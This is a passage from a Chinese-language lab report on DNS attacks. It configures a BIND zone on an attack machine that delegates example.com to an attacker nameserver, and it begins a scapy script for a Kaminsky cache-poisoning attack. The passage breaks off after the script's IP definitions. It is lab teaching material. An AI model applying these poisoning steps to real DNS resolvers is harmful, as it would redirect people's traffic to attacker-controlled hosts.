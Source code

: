 ​	在攻击机`172.17.0.1`配置DNS服务器，这样就可以回答域名example.com的查询。

​	在`172.17.0.1`的`/etc/bind/named.conf.local`添加如下条目

~~~named.conf.local
zone "example.com"{
	type master;
	file "/etc/bind/example.com.zone";
};
~~~

​	创建一个名为`/etc/bind/example.com.zone`的文件，并使用以下内容填充它。

~~~example.com.zone
$TTL 3D
@       IN      SOA     ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       			IN      NS      ns.lpxattacker.net.
@					IN		MX		10mail.example.com
www     			IN      A       1.1.1.1
mail    			IN      A     	1.1.1.2
*.example.com       IN      A       1.1.1.100


~~~

在攻击机和DNS服务器上重启bind9服务

~~~bash
service bind9 restart 
~~~





### 3.2 解决 DNS 缓存效应：Kaminsky 攻击	

（配置环境详情见任务书或csdn的参考，这里不再给出）

通过`generate_DNS.py` 生成IP及以上层的二进制报文，具体代码如下所示：（`query.py`同理）

~~~python
#!/usr/bin/env python3 
from scapy.all import * 
# Construct the DNS header and payload 

user		="172.17.0.2"
DNS_server	="172.17.0.3"
attacker	="172.17.0.4"
attacker2	="172.17.0.5"
attacker3	="172.17.0.1"
host		="192.168.62.19"

higher_DNS_Server="198.41.0.4"
higher_DNS_ServerA="198.41.0.4"
higher_DNS_ServerB="128.9.0.107"
higher_DNS_ServerC="192.33.4.12"
higher_DNS_ServerD="128.8.10.90"
higher_DNS_ServerE="192.203.230.10"
higher_DNS_ServerF="192.5.5.241"
higher_DNS_ServerG="192.112.36.4"
higher_DNS_ServerH="128.63.2.53"
higher_DNS_ServerI="192.36.148.17"
higher_DNS_ServerJ="192.58.128.30"
higher_DNS_ServerK="193.0.14.129"
~~~